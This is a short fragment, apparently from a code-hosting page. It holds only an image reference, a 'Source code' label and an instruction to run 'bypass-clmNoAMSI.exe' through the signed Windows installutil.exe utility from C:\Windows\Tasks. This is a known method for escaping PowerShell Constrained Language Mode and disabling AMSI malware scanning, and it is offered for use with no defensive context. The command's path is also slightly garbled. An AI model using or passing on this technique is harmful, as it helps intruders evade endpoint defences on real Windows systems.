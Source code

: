 Run it with C:\Windows\Microsoft.NET\Framework64 4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Windows\Tasks bypass-clmNoAMSI.exe
